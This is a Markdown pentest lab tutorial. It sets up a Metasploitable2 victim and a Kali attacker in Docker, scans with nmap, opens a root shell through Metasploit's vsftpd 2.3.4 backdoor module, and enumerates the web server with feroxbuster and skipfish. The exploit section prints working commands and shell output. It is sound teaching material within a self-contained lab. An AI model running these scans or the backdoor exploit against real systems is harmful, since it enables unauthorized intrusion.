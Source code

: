 # Example: Scanning for Vulnerabilities


### Setup a vulnerable 'victim' container we can exploit
Here we start a vulnerable container with the metasploitable2 image which has a ton of old services with vulnerabilities. See more info [here]https://docs.rapid7.com/metasploit/metasploitable-2/
```
    # Setup a network for the containers
    docker network create pentest

    # Run the vulnerable docker container
    docker run -it --network=pentest -h victim --name vulnerable.aa tleemcjr/metasploitable2

    # Create a very important secret on the vulnerable container
    echo 'flag{important_password_here}' > /root/important.txt

    # Keep the terminal open throughout the exercise.
```

**Note**: We named the vulnerable docker container `vulnerable.aa` and anyone on the docker network can now access it with this name. Docker will redirect requests to this container, in a similar way dns would to any other server. 'vulnerable.aa' could be replaced with any website for any of the used tools.

### Installing Kali Linux
Kali linux is a linux distribution which comes with many tools often used for security testing. Here we use the docker version, which does not come with as many tools, but they can easily be installed, and we can access the vulnerable container on the same docker network.

```
    # Installing Kali Linux in Docker
    docker run -it --rm --network pentest kalilinux/kali-last-release /bin/bash

    # Update list of packages which can be installed
    apt update
```


### Port scanning with nmap
Let's first try using [**nmap**: the Network Mapper](https://nmap.org/). It is a free tool which can be installed in kali with `apt install nmap -y`.

Using the Kali Linux Docker container from above, you can perform port scans on hosts of your choosing. Only do this on your own systems. 

To perform a simple port scan you can run `nmap <ip>`. If you scan the vulnerable container you should the the following output:

```
┌──(root㉿42790269161b)-[/]
└─# nmap vulnerable.aa
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 19:32 UTC
Nmap scan report for vulnerable.aa (172.20.0.4)
Host is up (0.000013s latency).
rDNS record for 172.20.0.4: vulnerable.aa.pentest
Not shown: 979 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 02:42:AC:14:00:04 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds

```

To probe open ports for service and version info, you can add the `-sV` flags. You can then check the services reported by nmap for vulnerabilities online, fx using [CVEdetails](https://www.cvedetails.com/).
Since the vulnerable container has a lot of services, we can limit the port range to 0-100 with the flag `-p0-100`.

```
┌──(root㉿42790269161b)-[/]
└─# nmap -sV -p0-100 vulnerable.aa
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 19:30 UTC
Nmap scan report for vulnerable.aa (172.20.0.4)
Host is up (0.000013s latency).
rDNS record for 172.20.0.4: vulnerable.aa.pentest
Not shown: 96 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp open  telnet  Linux telnetd
25/tcp open  smtp    Postfix smtpd
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
MAC Address: 02:42:AC:14:00:04 (Unknown)
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.27 seconds
```



### Setting up Metasploit
Metasploit is a framework which has a ton of scripts that exploit services. We can interact with it through msfconsole, and automate the exploit process. 
```
    # In the Kali container:
    apt install metasploit-framework -y  #takes a few minutes

    # Starting metasploit
    service postgresql start
    msfdb reinit # if this is the first time you are running metasploit
    msfconsole
```

In the nmap port scan we saw that port 21 was open with ftp running vsftpd 2.3.4. Now inside metasploit, let's see if there are any exploits defined for this version:

```
msf6 > search vsftpd
    
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


```

We can see that there is an exploit, in this case a backdoor, for this version. Let's exploit it and gain access to the container.
```
    # Select the exploit
    use 1

    # Set the target host and port
    set rhosts vulnerable.aa
    set rport 21

    # Execute the exploit
    exploit

```

You should get a message saying `Command shell session 1 opened`. You now have what's called a reverse shell, and any commands you type will be run on the exploited server.

```
[*] Command shell session 1 opened (172.20.0.2:34711 -> 172.20.0.4:6200) at 2025-04-07 19:42:39 +0000

whoami
root

cat /root/important.txt
flag{important_password_here}
```


### Enumerating a website with feroxbuster
[feroxbuster](https://github.com/epi052/feroxbuster) is a tool which can find website resources, even if they are not referenced on the site (Forced Browsing). You can fx find login pages, or hidden content.

```
    apt install feroxbuster -y
    
    # run the tool with -n for non-recursive, since there are so many webapps on the vulnerable machine.
    feroxbuster -n -u  http://vulnerable.aa/
 ```


### Searching for Vulnerabilities with Skipfish
[Skipfish](https://www.kali.org/tools/skipfish/) is another web application security tool, which can be quite helpful.

```
    # mapping a local folder where the html output is going to be saved
    docker run -v /tmp:/home/$(whoami) -t -i kalilinux/kali-last-release /bin/bash

    # inside the container now
    apt install skipfish -y
    
    # Change <YOUR-PATH> with something like /home/<USERNAME>/Desktop where the html output is going to be saved
    skipfish -o <YOUR-PATH>/report http://vulnerable.aa
 ```


### Learn more
If you want more security/hacking exercises, lookup Capture The Flag(CTF) events, where you find exploits to get a secret text string, called a flag, to earn points. You can check out sites like [picoCTF](https://play.picoctf.org/).